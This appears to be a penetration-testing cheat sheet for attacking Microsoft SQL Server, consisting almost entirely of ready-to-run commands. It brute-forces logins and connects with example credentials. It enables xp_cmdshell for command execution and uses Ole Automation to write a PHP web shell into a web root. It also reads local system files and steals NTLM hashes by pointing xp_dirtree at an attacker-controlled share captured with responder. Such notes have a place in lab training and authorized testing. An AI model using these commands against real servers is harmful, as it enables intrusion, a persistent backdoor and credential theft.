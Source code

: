 Bruteforce:

```bash
use auxiliary/scanner/mssql/mssql_login
```

Windows:

```bash
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

Linux:

```
mssqlclient.py -p 1433 julio@10.129.203.7
mssqlclient.py -p 1433 julio@10.129.203.7 -windows-auth 
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h - (Windows Auth)
```

sqlsh

Use `-m vert/ascii` to format the tables

`vert`: Displays results in a vertical format (one column per row), useful for long rows.
`ascii`: Creates clean ASCII table output with aligned columns.

View Databases:

```bash
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```

Select Database:

```bash
1> USE <database>
2> go
```

Show Tables:

```bash
1> SELECT table_name FROM <database>.INFORMATION_SCHEMA.TABLES
2> GO
```

XP_CMDSHELL

Enable:

```bash
1> EXECUTE sp_configure 'show advanced options', 1
2> GO

-- To update the currently configured value for advanced options.  
1> RECONFIGURE
2> GO  

-- To enable the feature.  
1> EXECUTE sp_configure 'xp_cmdshell', 1
2> GO  

-- To update the currently configured value for this feature.  
1> RECONFIGURE
2> GO
```

View table:

```bash
1> SELECT * FROM <table_name>
2> go
```

Command Execution:

```bash
1> xp_cmdshell 'whoami'
2> GO
```

Write Files

Need to enable Ole Automation Procedures

```bash
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Create a file:

```bash
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

Read Local Files

```bash
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

Stealing User Hash

```bash
auxiliary/admin/mssql/mssql_ntlm_stealer
EXEC master..xp_dirtree '\\10.10.15.65\share\'

responder -I <interface>
```